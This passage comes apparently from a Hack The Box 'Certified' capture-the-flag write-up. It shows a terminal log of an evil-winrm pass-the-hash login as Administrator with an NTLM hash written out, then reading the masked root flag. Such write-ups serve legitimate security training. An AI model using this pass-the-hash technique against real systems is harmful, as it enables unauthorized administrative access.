 And use to spawn shell with remote management and grab root flag.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
********************************
```
